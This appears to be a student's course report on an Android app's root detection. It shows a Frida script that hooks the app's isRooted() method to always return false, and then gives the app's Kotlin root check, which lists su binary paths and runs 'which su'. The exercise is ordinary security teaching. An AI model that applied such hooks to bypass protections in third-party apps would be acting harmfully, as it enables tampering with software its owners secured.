

and now all the strings are changed
---

##  Frida
Detail implementation of Frida
### What to do 



We will be bypassing this function that checks if the phone is rooted or not so that we will still be able to run the app even though we have a rooted device.

### Starting point 



I started of with the code from the slides and tested just this but with some tweaks so it fits our app and not the one from the slides

```Javascript
Java.perform(function () {

     var BaseActivity = Java.use("com.example.beerstack.BaseActivity");

     BaseActivity.isRooted.implementation = function () {

          console.log("[*] isRooted() got called!");

          this.isRooted();

     };

});
```



This was the result of the first test where we see that we called the isRooted() functionality and were able to do something with it so for now just a console.log() and do what it was supposed to do with the this.isRooted() 

### Final changes

```Javascript
Java.perform(function () {

     var BaseActivity = Java.use("com.example.beerstack.BaseActivity");

     BaseActivity.isRooted.implementation = function () {

         console.log("[*] isRooted() got called!");

        return false;

     };

});
```

We changed the this.isRooted(); to return false;
so now we don't just call the normal isRooted() function but we just always return a false so that it always looks like the device is not rooted. 


Now we see it got called and there are no more errors and the app just starts up even though we have a rooted device

##  Root
Implementation of the detecting root and block functionality.

If the attacker uses magisk alwaystrustusercerts this will be blocked because super user is needed

this is done with the BaseActivity code:

```kotlin
//New activity so I can link all others to this instead of getting an entire root check for every activity
abstract class BaseActivity : ComponentActivity() {

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)

        if (isRooted()) {
            //Closes the app
            finish()
            return
        }
    }

    private fun isRooted(): Boolean {
        return checkSuPath() || checkWhichSu()
    }

    private fun checkSuPath(): Boolean {
        //Checks for su binaries
        val paths = arrayOf(
            "/sbin/su",
            "/system/app/Superuser.apk",
            "/system/bin/failsafe/su",
            "/system/bin/su",
            "/system/xbin/su",
            "/system/sd/xbin/su",
            "/data/local/xbin/su",
            "/data/local/bin/su",
            "/data/local/su"
        )
        return paths.any { java.io.File(it).exists() }
    }

    private fun checkWhichSu(): Boolean {
        return try {
            Runtime.getRuntime()
                //Executes the command 'which su'
                .exec(arrayOf("which", "su"))
                //Read the output of the earlier executed command
                .inputStream
                .bufferedReader()
                .readText()
                //If it's not empty that means the device is likely rooted
                //because 'which su' doesn't return anything if there isn't a super user on the device
                .isNotEmpty()
        } catch (_: Exception) {
            //This catches any exceptions like if the command doesn't exist or shell execution is blocked
            false
        }
    }
}
```


## Link to Panopto video
https://

## Repositories
- Code
  - [Link to repository]
- APK
  - [Link to repository]